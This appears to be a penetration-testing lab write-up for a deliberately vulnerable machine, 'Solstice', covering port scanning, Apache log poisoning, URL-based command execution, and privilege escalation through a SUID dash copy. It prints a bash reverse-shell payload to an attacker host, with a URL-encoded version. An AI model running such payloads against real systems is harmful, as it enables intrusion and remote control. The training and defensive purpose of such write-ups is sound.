# Penetration Testing Report – Solstice

## Target Information

| Field | Details |
|---|---|
| Machine Description | A deliberately vulnerable lab machine for practicing web app exploits, privilege escalation, and post-exploitation to gain user and root access. |
| Target IP | `192.168.0.107` |
| Vulnerability Name | Remote Code Execution triggered through user-supplied URL parameters |
| Port / Service | `TCP 8593 / HTTP` |
| Severity | High (7.4) |
| Attack Vector | `CVSS:3.0/AV:L/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |

---

# Proof of Concept (PoC)

## Step 1 – Discover Target IP

Use Nmap to identify the target machine.

```bash
nmap -sn 192.168.0.0/24
```

### Screenshot



---

## Step 2 – Scan Open Ports and Services

```bash
nmap -p- -sC -sV $ip --open
```

> HTTP service was discovered running on port `8593`.

### Screenshot



---

## Step 3 – Identify URL Misconfiguration

A vulnerable parameter was identified in the URL:

```text
?book=list
```

### Screenshot



---

## Step 4 – Apache Log Poisoning

The application allowed log poisoning through Apache logs.

### Screenshot



---

## Step 5 – Exploitation Validation

Confirmed that the attack path was exploitable.

### Screenshot



---

## Step 6 – Poison Logs Using Netcat

Netcat was used to inject payloads into the log file.

### Screenshot



---

## Step 7 – Execute Commands Through URL

Commands could now be executed directly through crafted URL requests.

### Screenshot



---

## Step 8 – Start Netcat Listener

```bash
nc -lvnp 9090
```

### Screenshot



---

## Step 9 – Prepare Reverse Shell Payload

### Reverse Shell Payload

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.182/9090 0>&1'
```

### URL Encoded Payload

```text
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.182%2F9090%200%3E%261%27
```

### Screenshot



---

## Step 10 – Gain Reverse Shell

After executing the payload through the URL, a reverse shell connection was established.

### Screenshot



---

## Step 11 – Privilege Escalation Discovery

A folder named `sv` was identified with elevated execution permissions and modified SUID configuration.

### Screenshot



---

## Step 12 – Local Service Discovery

An `index.php` file was found running locally on port `57`.

### Screenshot



---

## Step 13 – Inject Remote Access Code

Remote access code was injected into the PHP file and executed locally.

### Screenshot



---

## Step 14 – Execute Malicious Script

The modified file was called to trigger execution.

### Screenshot



---

## Step 15 – Copy Dash Binary

The script copied the `dash` binary into the `/tmp` directory.

### Screenshot



---

## Step 16 – Obtain Root Access

Execution of the modified `dash` binary resulted in root-level access.

### Screenshot



# Proof Images



---

# Remediation

- Validate and sanitize all URL inputs.
- Avoid using dangerous functions such as:
  - `system()`
  - `exec()`
  - `eval()`
- Use safe APIs or strictly whitelisted commands.
- Run web services with least privilege.
- Disable dangerous functions.
- Deploy a Web Application Firewall (WAF).

---

# Impact

- Remote attacker can execute arbitrary system commands.
- Full compromise of the web server.
- Unauthorized access to sensitive files and data.
- Malware or backdoor deployment.
- Lateral movement to internal systems.
- Website defacement or service disruption.
- Loss of confidentiality, integrity, and availability.

---

# References

- https://owasp.org/www-community/attacks/Command_Injection
